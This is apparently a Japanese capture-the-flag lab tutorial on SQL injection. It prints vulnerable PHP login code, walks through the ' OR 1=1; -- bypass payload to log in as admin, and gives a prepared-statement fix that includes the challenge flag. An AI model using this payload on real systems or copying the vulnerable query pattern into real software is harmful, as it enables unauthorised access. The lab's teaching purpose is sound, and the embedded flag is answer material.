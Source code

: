 # SQLインジェクションで管理者アカウントにログインしよう

攻撃対象サーバのIPアドレス : {props.targetIp}

<br></br>

今回の目標はSQLインジェクションの脆弱性を利用して`admin`ユーザーでログインすることです。

<br></br>

まずは通常の状態でログインを試してみましょう。Usernameに`admin`、Passwordに適当な文字列を入れてログインしてみてください。
ログインに失敗することがわかります
<br></br>

次にSQLインジェクションの脆弱性を見つけに行きます。
Editorタブからコードを確認すると以下のようになっています。

```php
$name = $_POST['name'];
$pass = $_POST['password'];    
$sql = "SELECT * FROM users WHERE name = '$name' AND password = '$pass';";
$dbh = new PDO($dsn, $user, $password);
$result = $dbh->query($sql);
$result = $result->fetch();
```

<br></br>

このコードに対してnameに`admin`、passに`' OR 1=1; --`という文字列が入った場合どうなるでしょうか。
SQL文は以下の通りになります。

```sql
SELECT * FROM users WHERE name = 'admin' AND password = '' OR 1=1; --';
```

このSQLが実行されるとnameで指定した`admin`と一致するユーザーが存在するかどうかを確認し、その後`OR 1=1`が実行されます。`OR 1=1`は常に真となるので、このSQL文は常に真を返します。そのため、`admin`ユーザーのパスワードを知らなくてもログインすることができます。

<br></br>

百聞は一見にしかずなので、実際に攻撃してみましょう。

```bash
Username : admin
Password : ' OR 1=1;--
```

<br></br>

`admin`ユーザーでログインができたら答えとなる文字列が表示されるはずです。

<br></br>



# SQLiの修正

```php
if (isset($_POST['name']) && isset($_POST['password'])) {
  $dbh = new PDO($dsn, $user, $password);
  $stmt = $dbh->prepare("SELECT * FROM users WHERE name = :name AND password = :password");
  $stmt->bindParam(':name', $_POST['name'], PDO::PARAM_STR);
  $stmt->bindParam(':password', $_POST['password'], PDO::PARAM_STR);
  $stmt->execute();
  $result = $stmt->fetch();

  if ($result) {
    $msg = 'ログインしました。<br>sqli_is_easy';
    $link = '<a href="index.php">ホーム</a>';
  } else {
    $msg = 'ユーザーネームもしくはパスワードが間違っています。';
    $link = '<a href="login.php">戻る</a>';
  }
}
```